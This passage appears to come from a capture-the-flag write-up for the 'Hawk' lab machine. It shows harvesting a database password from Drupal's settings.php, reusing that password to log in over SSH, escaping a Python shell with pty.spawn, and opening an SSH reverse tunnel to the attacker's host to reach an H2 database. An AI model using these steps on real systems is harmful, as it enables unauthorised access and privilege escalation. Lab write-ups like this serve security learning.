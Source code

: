 #### Getting access to user daniel

In `/var/www/html/sites/default/settings.php` we find some credentials:

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Password: `drupal4hawk`

We can log in as user daniel with this password:

```
root@violentunicorn:~# ssh daniel@10.10.10.102
daniel@10.10.10.102's password: 

Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

We can escape this python interactive shell with:

```
>>> import pty
>>> pty.spawn("/bin/bash")
daniel@hawk:~$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
```

#### Privesc using H2 database

To access the H2 database remotely, we'll do an SSH reverse tunnel:

```
daniel@hawk:~$ ssh -R 8082:localhost:8082 root@10.10.14.23
The authenticity of host '10.10.14.23 (10.10.14.23)' can't be established.
ECDSA key fingerprint is SHA256:F1UaVc5s2w2++Hm8MXsITptkhljyxkLiczC12e3U2nA.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.14.23' (ECDSA) to the list of known hosts.
root@10.10.14.23's password: 
Linux violentunicorn 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jul 14 18:49:44 2018 from 10.10.10.102
```
